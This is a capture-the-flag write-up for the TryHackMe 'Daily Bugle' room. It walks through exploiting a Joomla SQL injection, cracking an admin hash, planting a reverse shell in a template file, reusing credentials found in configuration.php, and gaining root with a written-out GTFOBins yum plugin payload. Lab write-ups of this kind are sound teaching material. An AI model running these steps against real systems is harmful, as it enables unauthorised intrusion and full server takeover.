

# TryHackMe - Daily Bugle

Welcome to my writeup to the **Daily Bugle** room of [TryHackMe](https://tryhackme.com/dailybugle)! As advised in the room descriptions, we will avoid using SQLMap and use a Python script on this one instead. Happy hacking!

## Task 1: Deploy

The first task is very easy again. We're told that there is a webserver which we can open.


## Task 2: Obtain user and root

Let's start enumerating the server, and we will start with nmap.


We see that there is probably a Joomla CMS working in the background. Let's dig a little bit deeper and make use of a nice tool for enumerating Joomla installations especially, called ```joomscan```.


The tool reveals the version of Joomla which is running. Now we should check if there is any known vulnerability in this software version. We can use ```searchsploit``` to search for an exploit.


```searchsploit``` reveals that there is an exploit for a vulnerability found in this particular version of Joomla. You can navigate to ```/usr/share/exploitdb/exploits/php/webapps/42033.txt``` to have a look at it. In case you don't have the necessary packages installed, you can also download it from [Exploit-DB](https://www.exploit-db.com/exploits/42033).

In the exploit description we see the vulnerable URL and also a given SQLMap call that abuses this SQLi vulnerability. But as the room description suggests, and OSCP certification exam forbids automatic exploitation tools like SQLMap explicitly, let's try to find another way to exploit this. A research on Google regarding the CVE-2017-8917 reveals that an exploit called ```Joomblah``` exists for exactly this vulnerability. It can be found on [GitHub](https://github.com/XiphosResearch/exploits/tree/master/Joomblah).

The call would be:

```bash
python2 joomblah.py http://$machine:8080
```

So let's get it going!


Now that we have the hashed password, we need to crack it. First of all we need to find out which hash format this is. We can use a tool called ```hashid``` to do that.



Now that we know that bcrypt is the hash format, we can proceed with cracking the hash.

A very good tool to do this is [John the Ripper](https://www.openwall.com/john/), it is also included in the default Kali installation and also of course in the THM AttackBox.

Save the hash into a file called ```jonah_passwd_hash.txt``` and then run:

```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt --rules jonah_passwd_hash.txt
```

It will take some time to crack it.

Now having the password for the user, we can log in to the admin page ```http://$machine/administrator```.

Next stop would be uploading a payload to get a reverse shell. As Joomla is a PHP based CMS, we can try to find out how to upload files or edit existing files (template files are a common attack vector for example) in order to place our reverse shell code. 

We will try the second approach and so we go to [revshells.com](https://revshells.com) and create a PentestMonkey PHP reverse shell payload. In the saved file, we need to delete the opening ```<?php``` tag.

Now we can go to the Joomla template editor under **Extensions > Templates > Templates** in the administrator UI and click on **Protostar Details and Files**.

Now we edit the ```index.php```file and inject our reverse shell code in the file.


After saving the file, now every time we visit the main page, a reverse shell to our computer will be opened.

Open your netcat listener, reload the page, and there it is:


First of all, it is recommended to upgrade your reverse shell into an interactive shell, we can do this by using a simple Python snippet:

```bash
python -c 'import pty; pty.spawn("/bin/bash");'
```

Using the ```last``` command we can see, that **jjameson** was the last logged in user. As many people are lazy and re-use their passwords, we can try to ```su -l jjameson``` using the same password we cracked with ```john``` once again, but apparently it's not working in this case. So we need to find other hints how to elevate our privileges.

As we have the privileges of the webserver, we certainly can jump into the Joomla root directory and try to find some secrets.

In the file ```/var/www/html/configuration.php``` we can find some interesting plain text strings.


Now we try ```su -l jjameson``` with the passwords we find here.

And boom:


For more convenience, we can also use this password to log in via SSH.

Inside the user's home directory, we can find the user flag.

Let's enumerate the machine further. A helpful tool for that purpse is [LinEnum.sh](https://github.com/rebootuser/LinEnum).

We download the file from the GitHub repo and spin up a tiny HTTP server from where we will download it on to our target machine.

On your machine, do:
```bash
cd ~/Downloads
python3 -m http.server
```

On the target machine, do:
```bash
cd /var/tmp
wget http://$attackbox:8000/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

There is one interesting thing that ```LinEnum.sh``` reveals:

```
[+] We can sudo without supplying a password!
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

The user we're currently logged in as is able to execute ```yum``` with root permissions when using ```sudo```. There are multiple attack vectors that we can now make use of.

One way would be to craft an RPM package with a payload to get another reverse shell. Another way is to load a custom plugin. Fortunately, the [GTFObins collection](https://gtfobins.github.io/gtfobins/yum/) has a payload for exactly this.

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

If we fire these in our **jjameson** SSH session, we get an instant root shell and can collect our root flag.

## Summary

I did not find this room as hard, even without using SQLMap, but as the ```Joomblah.py``` Python script does the dirty work instead, I'm not sure if we were really doing something different here. Currently I'm not a master in SQL to do the necessary SQLi which got everything rolling the hard way. This is certainly one skill that I would like to develop further.